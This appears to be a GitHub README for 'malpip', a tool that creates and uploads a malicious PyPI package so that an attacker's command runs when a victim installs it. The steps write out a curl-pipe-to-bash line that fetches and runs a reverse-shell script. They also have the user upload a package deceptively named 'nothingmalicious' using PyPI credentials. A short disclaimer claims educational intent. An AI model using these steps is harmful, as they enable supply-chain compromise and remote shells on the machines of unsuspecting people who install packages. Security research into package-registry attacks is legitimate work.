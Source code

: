 
# malpip
Tool that creates a malicious pip package that runs your command during installation.

## Prerequisite
Create an account on https://pypi.org

## Installation
1. Clone repository and set permissions.
```bash
git clone https://github.com/thegoodhackertv/malpip.git
cd malpip
sudo chmod +x malpip.sh
```
2. Install dependencies.
```bash
sudo ./malpip install
```
3. Set the command to be executed.
```bash
echo "curl -s http://localhost/rev.sh | bash" > command.txt
```
4. Create malicious project.
You will be asked for your pypi credentials to upload the project.
```bash
./malpip create nothingmalicious command.txt
```
5. Install the package on the victim machine and your command will be executed.
```bash
pip install nothingmalicious
```

## Useful Resources
- [Youtube video](https://youtu.be/ux32ZHUJbKk) (spanish)
- [Website post](https://thegoodhackertv.com/ciberseguridad/te-pueden-infectar-con-github-y-python/) (spanish)

## Disclaimer
Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Support
[<img width=300 alt="patreon" src="https://i0.wp.com/thegoodhackertv.com/wp-content/uploads/2020/11/patreon.png">](https://www.patreon.com/thegoodhacker)
[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)

